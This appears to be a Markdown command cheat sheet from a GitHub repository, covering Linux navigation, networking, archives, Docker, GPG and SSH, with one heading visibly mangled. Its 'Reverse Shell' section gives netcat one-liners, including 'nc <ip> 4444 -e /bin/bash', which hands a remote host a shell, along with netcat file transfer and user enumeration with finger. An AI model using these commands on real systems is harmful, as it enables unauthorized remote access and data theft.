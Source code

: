 ## Search and Navigation
- `pwd` : Display the current working directory.
- `lsblk` : List mounted disks and partitions.
- `locate <file_name>` : Search for a file in the system.
- `which <command_name>` : Show the path of a command's executable.
- `history` : Display the history of executed commands.
- `find / -name "*...*" 2>/dev/null`: Search a file in the system 
- `tldr <tool>`: Display exemples of use for different tools

## Networking & Services
- `telnet <host> 80` : Test connection to a service.
- `finger @<ip>` : List the users on a remote machine.
- `finger fabiano@<ip>` : Get specific information about a user.
- `wget -r -np -nH --cut-dirs=0 http://192.168.1.100:8000/` : Download all files/folders from a directory hosted on a Python web server.
- `ss -tulpn`: Display all the open port.

## System
- `kill {pid}`: Kill a process.
- `export VAR=value` : Create or modify an environment variable and make it available to child processes.

## Crypto & Certificates
- `openssl x509 -in key.pem -text -noout` : Analyze a X.509 certificate.
- `gpg --homedir /your/path/to/gpg_key -d file.gpg` : Decrypt a GPG-encrypted file (requires the corresponding private key or passphrase).  
- `gpg --encrypt -r <recipient> file.txt` : Encrypt a file for a specific recipient using their public key.

## Databases--homedir
- `sqlite3 filedb.sqlite` : Start an SQLite session on a `.sqlite` file.

## File
- `file <file_name>` : Display the file type.
- `ln -s /path/to/target /path/to/symlink`: Creat a symlink.

## Reverse Shell
- `python3 -c 'import pty; pty.spawn("/bin/bash")'` : Upgrade a reverse shell to a fully interactive shell.
- `nc -lvnp 4444`: Open port 4444
- `nc <ip> 4444 > file.txt`: Connect to a port on another machine and save the received data into file.txt 
- `nc -lvnp 4444 < file.txt`: Listen on port 4444 and send the contents of file.txt to any connected client.
- `nc <ip> 4444 -e /bin/bash`: Connect to the reverse shell with nc

## Compression & Decompression
- `tar -cf archive.tar folder/` : Create a TAR archive without compression.  
- `tar -xf archive.tar` : Extract a TAR archive without compression.  
- `tar -czf archive.tar.gz folder/` : Create a TAR archive compressed with Gzip.  
- `tar -xzf archive.tar.gz` : Extract a TAR archive compressed with Gzip.  
- `tar -cjf archive.tar.bz2 folder/` : Create a TAR archive compressed with Bzip2.  
- `tar -xjf archive.tar.bz2` : Extract a TAR archive compressed with Bzip2.  
- `tar -cJf archive.tar.xz folder/` : Create a TAR archive compressed with XZ.  
- `tar -xJf archive.tar.xz` : Extract a TAR archive compressed with XZ.  
- `gzip file.txt` : Compress a single file with Gzip, replacing the original file.  
- `gunzip file.txt.gz` : Decompress a Gzip file.  
- `bzip2 file.txt` : Compress a single file with Bzip2, replacing the original file.  
- `bunzip2 file.txt.bz2` : Decompress a Bzip2 file.  
- `xz file.txt` : Compress a single file with XZ, replacing the original file.  
- `unxz file.txt.xz` : Decompress an XZ file.  
- `zip -r archive.zip folder/` : Create a ZIP archive containing a folder and its contents. 
- `unzip archive.zip` : Extract the contents of a ZIP archive.  

## Docker
- `docker ps` : List all running containers.
- `docker ps -a` : List all containers (running and stopped).
- `docker images` : List all available Docker images.
- `docker build -t <image_name> .` : Build an image from a Dockerfile in the current directory.
- `docker run -it --rm <image_name>` : Run a container interactively and remove it after exit.
- `docker run -d --name <container_name> <image_name>` : Run a container in detached mode with a specific name.
- `docker exec -it <container_name> /bin/bash` : Open an interactive shell inside a running container.
- `docker stop <container_name>` : Stop a running container.
- `docker start <container_name>` : Start a stopped container.
- `docker restart <container_name>` : Restart a container.
- `docker rm <container_name>` : Remove a stopped container.
- `docker rmi <image_name>` : Remove a Docker image.
- `docker logs <container_name>` : Show the logs of a container.
- `docker inspect <container_name>` : Show detailed information about a container.
- `docker cp <container_name>:/path/in/container /path/on/host` : Copy a file from a container to the host.
- `docker cp /path/on/host <container_name>:/path/in/container` : Copy a file from the host to a container.
- `docker-compose up -d` : Start all services defined in a `docker-compose.yml` in detached mode.
- `docker-compose down` : Stop and remove containers, networks, and volumes created by `docker-compose up`.
- `docker system prune -a` : Remove all stopped containers, unused images, and unused networks.

## SSH

- `chmod 600 id_rsa`: Restricts permissions so only the owner can read/write the private key (600: 110 000 000 = rw- --- ---).
- `ssh -i id_rsa root@<ip>`: Connect as root using the private key.

## Github



